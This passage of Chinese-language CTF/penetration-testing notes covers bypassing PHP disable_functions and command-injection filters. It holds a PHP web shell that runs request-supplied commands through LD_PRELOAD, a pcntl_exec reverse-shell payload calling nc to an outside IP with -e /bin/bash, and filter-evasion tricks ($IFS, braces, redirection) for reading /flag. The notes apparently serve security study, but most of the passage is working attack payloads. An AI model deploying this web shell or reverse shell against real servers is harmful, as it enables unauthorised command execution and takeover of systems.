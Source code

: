 ```php+HTML
<?php
$cmd = $_REQUEST["cmd"];
$out_path = $_REQUEST["outpath"];
$evil_cmdline = $cmd.">"$out_path." 2>&1";
echo "<br /><b>cmdline:</b>".$evil_cmdline;
putenv("EVIL_CMDLINE=".$evil_cmdline");

$so_path = $_REQUEST["sopath"];
putenv("LD_PRELOAD=".$so_path);
main('','','','');
echo "<br /><b>output:<b/><br />".nl2br(file_get_contents($out_path));

?>
```

## 5：蚁剑及pcntl绕过函数过滤

#### 蚁剑：

![image-20250807111349150](https://raw.githubusercontent.com/ssaa769/typora-images/main/typora/image-20250807111349150.png)

![image-20250807111404906](C:\Users\zdx33\AppData\Roaming\Typora\typora-user-images\image-20250807111404906.png

github地址：https://github.com/AntSword-Store/as_bypass_php_disable_functions

#### pcntl_exec函数：

函数原型：pcntl_exec(string $path, array $args = ?, array $envs = ?)   要**额外安装**

参数path：h必须是一个可执行二进制文件路径或者开头指明解释器的脚本   比如/bin/bash -c 'ls'

参数args：一个传递给程序的字符串数组

参数envs：一个传递给程序作为环境变量的字符串数组

info信息：**没有禁用**该函数

**没有回显：**

1. **cat文件并重定向输出到有权限读取的路径，如上**
2. **反弹shell**

示例如下：

```cmd=pcntl_exec("/bin/bash",array("-c","nc 192.168.59.128 33333 -e /bin/bash"));```

## 6：操作系统连接符

| ;            | &                                            | \|                                       | &&                                     | \|\|                                   |
| :----------- | -------------------------------------------- | ---------------------------------------- | -------------------------------------- | -------------------------------------- |
| 顺序执行命令 | 需要url编码为%26，前面一个命令在**后台**执行 | 管道符，前面命令的结果作为后面命令的参数 | 前一个命令执行**成功**才执行后一个命令 | 前一个命令执行**失败**才执行后一个命令 |

## 7：空格过滤绕过

1. 重定向字符<>```cat /flag   cat</flag   cat<>/flag```
2. 大括号```{cat,/flag}```
3. 使用$IFS代替；$IFS ${IFS}  $IFS$9                 ```ls$IFS-l```        防止后面的内容被当作变量名使用${IFS}或者$IFS$9，$9是当前系统shell进程第九个命令行参数，一般为空。（到10就要${10}）
4. url编码	%09(Tab)   %20(space)            (基本没用)

## 8：文件名过滤（正则匹配绕过）

过滤php、system、flag

```